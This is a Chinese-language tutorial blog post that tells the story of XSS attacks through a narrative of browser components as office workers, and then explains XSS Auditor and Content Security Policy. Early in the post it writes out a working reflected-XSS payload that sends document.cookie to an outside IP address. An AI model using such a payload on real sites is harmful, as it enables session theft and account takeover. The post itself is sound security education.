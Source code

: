```yaml
---
author: "轩辕之风"
title: "一个神秘URL酿大祸，差点让我背锅！"
date: 2020-06-05
description: "我叫小风，是Windows帝国一个普通的上班族。上一回说到因为一个跨域请求，我差点丢了饭碗，好在有惊无险，我的职场历险记还在继续。“叮叮叮叮~~~~”，闹钟又把我给吵醒了，我一看时间竟然已经这么晚了。我赶紧起身，准备要去上班，好不容易在那家浏览器公司谋了个差事，可不敢迟到。…"
tags: ["JavaScript"]
ShowReadingTime: "阅读10分钟"
weight: 556
---
```

神秘URL
-----

我叫小风，是Windows帝国一个普通的上班族。上一回说到[因为一个跨域请求，我差点丢了饭碗](https://link.juejin.cn?target=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2FK15IVpe57STOf0SxyLEg9A "https://mp.weixin.qq.com/s/K15IVpe57STOf0SxyLEg9A")，好在有惊无险，我的职场历险记还在继续。

“叮叮叮叮~~~~”，闹钟又把我给吵醒了，我一看时间竟然已经这么晚了。

我赶紧起身，准备要去上班，好不容易在那家浏览器公司谋了个差事，可不敢迟到。

今天又是普通的一天，很快就到了深夜，上网业务少了，我和小雪妹子一合计，伙同负责网络连接的老白和负责存储的小黑，一起打起了麻将。

![](https://p1-jj.byteimg.com/tos-cn-i-t2oaga2asx/gold-user-assets/2020/6/5/17281ce42f8afe28~tplv-t2oaga2asx-jj-mark:3024:0:0:0:q75.png)

一连打了几圈，正在兴头上，公司的美女前台跑了过来，“你们几个别玩了，上网业务来了。老白，这是URL，给”

我瞅了一眼这URL，看上去有些奇怪，不仅比之前见过的都长，貌似还夹杂着一些JavaScript代码。

> http://zone.oo.com/user/info.jsp?desc="/><script>$("body").append("<img src='http://192.168.59.129?c="+escape(document.cookie) + "'>")</script><!--

“老白，这URL长的好奇怪？会不会有什么问题？”，我向老白问到。

“嗨，你小子就是新来的，我见过的URL比你执行过的JS代码都多，什么奇形怪状的没见过，大惊小怪”，老白不屑一顾。

“大家把牌盖着，都别看，忙完了回来咱接着打”，老白继续说到。

于是大家各归各位，准备处理这一单上网业务。

很快，老白取回了这个URL背后的网页，交给了小雪来解析渲染。

小雪做了一半，叫住了我：“风哥，又有 **<script>** 标签了，该你上了”。

我接过小雪手里的网页，猛地一看，**这不是刚刚URL里面出现的代码吗？怎么又跑到网页里面去了？**

心里突然涌上一种不好的预感，正在困惑之中，老白催我了，“小雪小风你俩赶紧的，网页加载半天了还没显示出来！”

但愿是我多想了，我开始执行这 **<script>** 标签中的代码了。

 代码解读

复制代码

`<script>   $("body").append("\<img src='http://192.168.59.129:10086?c="    + escape(document.cookie) + "'>") </script>`

我要创建一个新的 **<img>** 标签，添加到网页正文中去。看了一下这个图片的来源，是一个新的地址，再一看，还要把当前网站的**Cookie**带着作为参数才能拿到这个图片。

我来到小黑的存储仓库，准备向他索要Cookie。

当我表明来意以后，小黑也显得有些谨慎，“**按照公司规定，一个网站的Cookie是不能随便给别的网站访问的**”

“这我当然知道，不过现在是这个网站的JS代码主动把Cookie取出来发给别人，这不算违反公司规定吧”，我解释到。

小黑邹着眉头想了一想，也就同意了。

我拿到cookie后，构建了一个完整的 **<img>** 标签添加到了网页的DOM树中，之后还给小雪继续渲染。

网页很快渲染完成展示出来了，忙完之后我们继续开始未完的牌局。

过了一会儿，人类终于关掉了浏览器，我们也可以下班了······

XSS跨站脚本攻击
---------

第二天一早，我刚到公司，小雪妹子就转过头告诉我：“风哥，主管让你去趟他的办公室，他好像不太高兴，你当心点”

“你知道是什么事情吗？”

“我也不太清楚，只听说你执行了什么错误的JavaScript代码”

我心里一紧，感觉大事不妙，难道是昨晚那奇怪的代码有什么问题？

来到主管的办公室，见里面坐了一个年轻小哥。我轻轻的敲了敲门问到：“主管，您找我有事？”

主管见我到来，指着旁边的沙发示意我也坐下。

“你闯祸了知道吗？”，领导扔给我一页文件。

![](https://p1-jj.byteimg.com/tos-cn-i-t2oaga2asx/gold-user-assets/2020/6/5/17281ce42fd29a11~tplv-t2oaga2asx-jj-mark:3024:0:0:0:q75.png)

我拿起文件一看，上面赫然写着我昨晚执行那段奇怪的JavaScript代码。

“主管，我不太清楚，这是有什么问题吗？”，我小声问道。

主管指着旁边那个年轻小哥说到：“这位是OO空间网站的负责人，让他告诉你吧”

小哥点了点头说到：“是这样的，我们发现有人盗用我们网站的Cookie，免登录直接访问了进去，经过日志排查，发现是你们这里把Cookie泄露的，所以想过来了解一下情况”

![](https://p1-jj.byteimg.com/tos-cn-i-t2oaga2asx/gold-user-assets/2020/6/5/17281ce4322b4031~tplv-t2oaga2asx-jj-mark:3024:0:0:0:q75.png)

“这段代码是你们网站自己的，我只是完成我的工作执行了它而已啊”，我开始有些紧张了。

“可是我们网站根本没有这段代码，也不可能把Cookie就这样发给别人的”，这小哥也争辩道。

办公室的气氛变得有些紧张，现场陷入了短暂的安静。

就在此时，年轻小哥出去接了一个电话。

片刻之后，小哥再次回到办公室，脸色突然和缓了许多，笑着说到：“不好意思，刚刚接到同事的电话说，他们已经排查出了问题，**是我们网站对URL中的参数没有检查，直接写入了网页中，被人利用传入了JS代码**。跟你们应该没有关系，实在是抱歉”

![](https://p1-jj.byteimg.com/tos-cn-i-t2oaga2asx/gold-user-assets/2020/6/5/17281ce42fc6d90d~tplv-t2oaga2asx-jj-mark:3024:0:0:0:q75.png)

听完，我松了一口气，差点就要背锅了。

回到工位，我把事情的经过告诉了大伙。

小雪听后吐槽：“那些奇奇怪怪的URL就别乱点嘛，真是给我们添乱”

“你看你看，我昨晚上就觉得有些不对劲。这坏蛋手段挺高啊，能想出这么个损招，咱们给这种攻击方式取个名字吧”，小黑说到，“叫`Cross Site Script`攻击怎么样？”

老白点了点头，“跨站脚本攻击，嗯，总结很到位，那就简称CSS吧！”

小雪一听转过头来，“你叫CSS，那我的层叠样式表岂不是要改名让贤？”

老白挠了挠头，有些不好意思，“哦，忘了这一茬。那改一下，叫**XSS**，这总可以了吧？”

我们都点了点头，就这么定了。

XSS Auditor
-----------

虽然这一次的事情责任不在我们浏览器，不过我一直还是有些后怕。

这天晚上，我又仔细回忆了那天整个事情的经过

![](https://p1-jj.byteimg.com/tos-cn-i-t2oaga2asx/gold-user-assets/2020/6/5/17281ce4351aec6d~tplv-t2oaga2asx-jj-mark:3024:0:0:0:q75.png)

突然脑子里灵光一闪，发现一个重要的特点

![](https://p1-jj.byteimg.com/tos-cn-i-t2oaga2asx/gold-user-assets/2020/6/5/17281ce437a91d95~tplv-t2oaga2asx-jj-mark:3024:0:0:0:q75.png)

**既然JS代码同时出现在了请求的URL中和响应的网页中，何不利用这个特点来进行针对性拦截呢？**

越想越难入睡，连夜写起了方案。

第二天，来到公司，打算将昨晚的方案汇报给主管，挣一下表现。

我再次来到主管办公室，主管见是我，招呼道：“小风啊，来来来，刚好找你有点事”

我快步走了进去，只见主管又拿出了一叠文件放在我的面前，随后说到：“这是我搞到的绝密资料，是咱们隔壁Chrome浏览器公司的一个叫`XSS Auditor`的技术，据说可以阻止类似上次的攻击事件，你抽空研究一下”

![](https://p1-jj.byteimg.com/tos-cn-i-t2oaga2asx/gold-user-assets/2020/6/5/17281ce4ad0d1fdc~tplv-t2oaga2asx-jj-mark:3024:0:0:0:q75.png)

我脑子一懵，赶紧快速浏览了这份文件，没想到居然跟我的方案撞到一块儿了，而且比我想的还全面细致。我只好悄悄收起了原来准备汇报的方案······

几天后，主管宣布我们也要用上这种技术，增强咱们浏览器的安全性。

存储型XSS
------

“听说了吗？隔壁Chrome浏览器公司也发生XSS攻击了”，一天中午，老白神神秘秘的说到。

我一听来了精神，“不是有XSS Auditor吗，怎么还会发生这种事？”

“这回那些坏蛋换招了，他们没有把JS代码放在URL中，XSS Auditor自然是发觉不了了”

“不在URL中，那放哪里了？”

“听说是存在了数据库里，访问网页的时候从数据库里读取出来后，直接给填充到了网页上了，喏，就像这样”，老白说完画了一个图。

![](https://p1-jj.byteimg.com/tos-cn-i-t2oaga2asx/gold-user-assets/2020/6/5/17281ce4ad1d341e~tplv-t2oaga2asx-jj-mark:3024:0:0:0:q75.png)

“对了，他们借此机会把XSS攻击分成了两种，以前那种直接通过URL把JS代码注入进网页的方式叫做`反射型XSS`，这一次这种叫`存储型XSS`”，老白继续说到。

我看了老白的图一下就明白了，“这一招也太狠了，存进了网站的数据库里，所有人访问页面都得中招”

“可不是咋的，OO空间网站那边已经乱成一锅粥了，正在内部整顿，对所有的输入进行全面的检查过滤，防止JS代码混进去。”

“这种事情还是得他们网站自己做好检查，咱们浏览器也帮不上什么忙”，一旁的小黑也插了一嘴。

大家七嘴八舌聊了几句就散了。

![](https://p1-jj.byteimg.com/tos-cn-i-t2oaga2asx/gold-user-assets/2020/6/5/17281ce4ad5e69af~tplv-t2oaga2asx-jj-mark:3024:0:0:0:q75.png)

虽然小黑说的也没错，不过上次的方案撞车，我一直不太服气，这一次机会来了，我要是能再想出一套方案，能把这次的新型XSS一并解决的话，那就扬眉吐气了。

之后一段时间，一有闲暇我就开始思考这个问题，却一直没什么进展。

CSP
---

这一天中午，没什么工作要忙，我又想起了这个问题，小雪他们又组织打麻将，我没有心思便拒绝了。

老白闻讯过来，说到：“小风，你还在想那个问题啊，你这两天没看新闻吗，W3C标准化组织推出了一个新技术，已经把这个问题解决了！”

老白的话如当头一棒，“什么技术？怎么解决的？”

![](https://p1-jj.byteimg.com/tos-cn-i-t2oaga2asx/gold-user-assets/2020/6/5/17281ce4b4bcfa4c~tplv-t2oaga2asx-jj-mark:3024:0:0:0:q75.png)

“你看你，天天关起门来研究，都不知道外面的世界变化有多快。你去了解一下，好像叫什么`Content Security Policy`，哦对，就是这个，简称叫`CSP`”

我赶紧去打听了这个叫CSP的新技术，看完直拍大腿，我怎么就没想到。

CSP规定了一个叫`Content-Security-Policy`的信息，网站通过这个信息告诉浏览器哪些外部资源可以加载和执行。这个信息可以用HTTP头的形式出现，像这样：

![](https://p1-jj.byteimg.com/tos-cn-i-t2oaga2asx/gold-user-assets/2020/6/5/17281ce4bed92174~tplv-t2oaga2asx-jj-mark:3024:0:0:0:q75.png)

也可以通过 **<meta>** 标签出现，像这样：

 代码解读

复制代码

`<meta http-equiv="Content-Security-Policy"        content="script-src 'self'; object-src 'none'; style-src cdn.example.org third-party.org; child-src https:">`

至于里面的内容，则是将所有可能出现外部资源加载的地方进行了指示，浏览器拿到它就能知道能去哪些地址加载对应的资源，如果资源所在的地址不在名单之内就拒绝加载：

 代码解读

复制代码

`- script-src：外部脚本 - style-src：样式表 - img-src：图像 - media-src：媒体文件（音频和视频） - font-src：字体文件 - object-src：插件（比如 Flash） - child-src：框架 - frame-ancestors：嵌入的外部资源 - connect-src：HTTP 连接（通过 XHR、WebSockets、EventSource等） - worker-src：worker脚本 - manifest-src：manifest 文件`

比如 img-src的内容是`self`，那所有的 **<img>** 标签的src属性必须是在当前网站才行，如果加载其他地址的图片就会拒绝。

不仅如此，还提供了一个叫`report-uri`的字段，字段内容是一个服务器地址，浏览器发现有不符合规定的资源加载后，除了拒绝加载还可以把这一情况报告给这个地址，网站就能及时知道预警了。

真是完美的解决方案！没想到，竟然这么多竞争对手都已经用上了这项技术

![](https://p1-jj.byteimg.com/tos-cn-i-t2oaga2asx/gold-user-assets/2020/6/5/17281ce4d500b523~tplv-t2oaga2asx-jj-mark:3024:0:0:0:q75.png)

当天下午，我就拉着老白去到领导办公室，说服他将这项技术在咱们公司也用起来。

烦人的XSS攻击总算是缓解了不少，我们也难得度过了一段时间的太平日子。

**未完待续······**

彩蛋
--

> 太平的日子没有太持久，那件事之后半个月，我又因为执行一段JS代码霸占CPU太久，被帝国安全警卫队勒令我们浏览器公司强制关闭。
> 
> 执行JavaScript这份工是越来越不好打了。
> 
> _预知后事如何，请关注后续精彩······_

往期热门回顾
------

[因为一个跨域请求，我差点丢了饭碗](https://link.juejin.cn?target=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2FK15IVpe57STOf0SxyLEg9A "https://mp.weixin.qq.com/s/K15IVpe57STOf0SxyLEg9A")

[就为了一个原子操作，其他CPU核心都罢工了](https://link.juejin.cn?target=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2Fjx0EajGXGrM3fR14P9Bm7Q "https://mp.weixin.qq.com/s/jx0EajGXGrM3fR14P9Bm7Q")

[完了！CPU一味求快出事儿了！](https://link.juejin.cn?target=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2Fjx0EajGXGrM3fR14P9Bm7Q "https://mp.weixin.qq.com/s/jx0EajGXGrM3fR14P9Bm7Q")

[可怕！CPU竟成了黑客的帮凶！](https://link.juejin.cn?target=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2FXEDCCQntIRghWhfigciWSA "https://mp.weixin.qq.com/s/XEDCCQntIRghWhfigciWSA")

[哈希表哪家强？几大编程语言吵起来了！](https://link.juejin.cn?target=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2FerSqe-nItuQPxW4MT3LEVg "https://mp.weixin.qq.com/s/erSqe-nItuQPxW4MT3LEVg")

[震撼！全网第一张源码分析全景图揭秘Nginx](https://link.juejin.cn?target=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2FmhsIoabAVOyTrBXKGZjD_g "https://mp.weixin.qq.com/s/mhsIoabAVOyTrBXKGZjD_g")

[一个整数＋1引发的灾难](https://link.juejin.cn?target=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2FhFWSItFYIzWLr_RFne2lBA "https://mp.weixin.qq.com/s/hFWSItFYIzWLr_RFne2lBA")

[一网打尽！每个程序猿都该了解的黑客技术大汇总](https://link.juejin.cn?target=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2FKZ3-PeYWBBos40spbqiTRA "https://mp.weixin.qq.com/s/KZ3-PeYWBBos40spbqiTRA")

[DDoS攻击：无限战争](https://link.juejin.cn?target=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2FCYoaJfV9btYBFWD7ZGLVng "https://mp.weixin.qq.com/s/CYoaJfV9btYBFWD7ZGLVng")

[一个Java对象的回忆录：垃圾回收](https://link.juejin.cn?target=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2FQWuhgrT7LEqq06NxdvfaeA "https://mp.weixin.qq.com/s/QWuhgrT7LEqq06NxdvfaeA")

[谁动了你的HTTPS流量？](https://link.juejin.cn?target=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2FOZ6ZOoGULUgRRaL_qw9bFA "https://mp.weixin.qq.com/s/OZ6ZOoGULUgRRaL_qw9bFA")

[路由器里的广告秘密](https://link.juejin.cn?target=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2F1_pDD-V4Qa5k22NOoruNMg "https://mp.weixin.qq.com/s/1_pDD-V4Qa5k22NOoruNMg")

[一个HTTP数据包的奇幻之旅](https://link.juejin.cn?target=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2FaxPUi-8kHtFQTwgRtyZtGQ "https://mp.weixin.qq.com/s/axPUi-8kHtFQTwgRtyZtGQ")

[我是一个流氓软件线程](https://link.juejin.cn?target=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2FYDEwVD9MudthkTTCshJF3w "https://mp.weixin.qq.com/s/YDEwVD9MudthkTTCshJF3w")

![](https://p1-jj.byteimg.com/tos-cn-i-t2oaga2asx/gold-user-assets/2020/6/5/17281ce4df63d0d6~tplv-t2oaga2asx-jj-mark:3024:0:0:0:q75.png)

![](https://p1-jj.byteimg.com/tos-cn-i-t2oaga2asx/gold-user-assets/2020/6/5/17281ce4e45142ff~tplv-t2oaga2asx-jj-mark:3024:0:0:0:q75.png)